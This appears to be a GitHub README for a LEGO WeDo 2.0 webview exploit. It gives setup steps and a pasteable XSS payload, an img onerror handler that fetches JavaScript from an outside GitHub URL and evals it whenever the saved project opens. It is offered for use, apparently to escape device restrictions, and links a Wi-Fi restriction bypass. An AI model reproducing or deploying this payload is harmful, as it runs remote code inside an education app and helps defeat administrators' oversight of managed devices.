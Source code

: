 # BlobbypassLEGO
## LEGO WeDo 2.0 Webview Exploit that uses BlobbypassXSS

### Setup:
* First, install [WeDo 2.0 LEGO® Education](https://chromewebstore.google.com/detail/wedo-20-lego%C2%AE-education/pflionopdgpjckjkafnlamfmonjhccdh?hl=en-US) from the Chrome Webstore.
* Wait until it loads, then turn off your WiFi.
* Once you are in the project, click on the pencil in the top bar.
* Then, click the green document button.
* In the textbox, paste the following string:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Blobby-Boi/BlobbypassXSS/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
* Close LEGO WeDo 2.0 and re-enable your WiFi.

### How to use (after Setup):
* Open LEGO WeDo 2.0 (with WiFi turned on).
* Click the project you made when you were setting this up.
* Press the pencil in the top bar.
* Done!
  
#### This does not bypass Wi-Fi restrictions. If you want to do that, do [Blobwifi](https://blobby-boi.github.io/Blobwifi/).
